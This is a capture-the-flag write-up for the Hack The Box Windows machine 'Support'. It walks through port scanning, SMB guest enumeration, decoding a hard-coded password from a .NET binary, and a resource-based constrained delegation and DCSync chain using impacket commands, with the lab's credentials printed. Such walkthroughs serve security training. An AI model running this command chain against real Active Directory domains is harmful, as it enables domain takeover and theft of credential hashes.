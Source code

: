 ```yaml
---
title : "[HTB] Windows Machine: Support"
date: 2025-05-09 00:00:00 +0800
tags: [ad,htb, practice, rcbd, dcsync]
categories: [ad,htb, practice, rcbd, dcsync]
---
```


# Enumeration

## Port scan

```
# Nmap 7.94SVN scan initiated Fri May  9 21:07:56 2025 as: /usr/lib/nmap/nmap -sC -sV -vv -oN ports -T4 -p- 10.10.11.174
Nmap scan report for 10.10.11.174
Host is up, received echo-reply ttl 127 (0.13s latency).
Scanned at 2025-05-09 21:07:56 CEST for 366s
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-05-09 19:12:28Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49682/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49697/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49740/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-05-09T19:13:20
|_  start_date: N/A
|_clock-skew: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 19493/tcp): CLEAN (Timeout)
|   Check 2 (port 6220/tcp): CLEAN (Timeout)
|   Check 3 (port 45724/udp): CLEAN (Timeout)
|   Check 4 (port 14255/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May  9 21:14:02 2025 -- 1 IP address (1 host up) scanned in 366.26 seconds

```

# Exploitation

## SMB Guest

The SMB share allows the access as the `guest` user.

```bash
nxc smb support.htb -u 'guest' -p '' --shares
```

![](/assets/Support/Support-SMBGuest.png)

Since we have read access over `IPC$` we can also enumerate the users.

```bash
nxc smb support.htb -u 'guest' -p '' --rid-brute
```

By enumerating the share `support-tools` we find a custom binary named UserInfo.exe.zip

```
smbclient -U support.htb/Guest "\\\\support.htb\\support-tools"
```

![](/assets/Support/Support-Shares.png)


## Decrypting password

Since this is a `.NET` binary it can be disassembled by using `ilspy`. Here we can find three things:
* A valid username, which is `ldap` (we already knew this from the `--rid-brute` enumeration)
* An encrypted password and the used key
* The encryption algorithm

![](/assets/Support/Support-Username.png)

![](/assets/Support/Support-EncAndKey.png)


![](/assets/Support/Support-EncryptionAlgorithm.png)

```text
0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E
```

```c#
private static byte[] key = Encoding.ASCII.GetBytes("armando");
```

```c#
// UserInfo, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null  
// UserInfo.Services.Protected  
using System;  
using System.Text;  
  
public static string getPassword()  
{  
    byte[] array = Convert.FromBase64String(enc_password);  
    byte[] array2 = array;  
    for (int i = 0; i < array.Length; i++)  
    {  
        array2[i] = (byte)(array[i] ^ key[i % key.Length] ^ 0xDF);  
    }  
    return Encoding.Default.GetString(array2);  
}
```
This encryption can be easily reversed by using the following python script

```python
import base64


password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = "armando".encode('utf-8')

print(key)
password_bytes = base64.b64decode(password)
plaintex = []
for idx,b in enumerate(password_bytes):
    plaintex.append(chr(b^223^key[idx%len(key)]))

print(''.join(plaintex))
```

```
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

## From ldap user to support user

Since now we have the credentials for a domain user we can enumerate the domain. We can start by looking at the users:
```bash
ldapsearch -x -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "dc=support,dc=htb" "(objectClass=person)"
```

Here we can notice that the user `support` has the `info` parameter populated by a string. This is the plaintext password of the `support` user.

![](/assets/Support/Support-SupportPassword.png)

```
support:Ironside47pleasure40Watchful
```


## From support user to Domain Admin

By looking at the bloodhound output, now we can notice that the `support` user has `GenericWrite` over the domain controller. 

![](/assets/Support/Support-GenericAllOnDC.png)

Since the **machine account quota** for the user `support` is set to 10 (the default), we can abuse this misconfiguration by using `resource-based constrained delegation`

![](/assets/Support/Support-MAQ.png)


We add a new computer to the domain:
```
impacket-addcomputer -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-host dc.support.htb -domain-netbios support.htb 'support.htb/support:Ironside47pleasure40Watchful'
```
We set the `rbcd` on the DC

```
impacket-rbcd -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'dc$' -action 'write' 'support.htb/support:Ironside47pleasure40Watchful'
```

We impersonate the `Administrator` user and we request a TGS ticket for the `LDAP` service

```
impacket-getST -spn 'ldap/dc.support.htb' -impersonate 'Administrator' 'support.htb/attackersystem$:Summer2018!'
```

With this ticket we can perform a `DCSync` attack.

```
export KRB5CCNAME=Administrator@ldap_dc.support.htb@SUPPORT.HTB.ccache
impacket-secretsdump -k -no-pass dc.support.htb
```


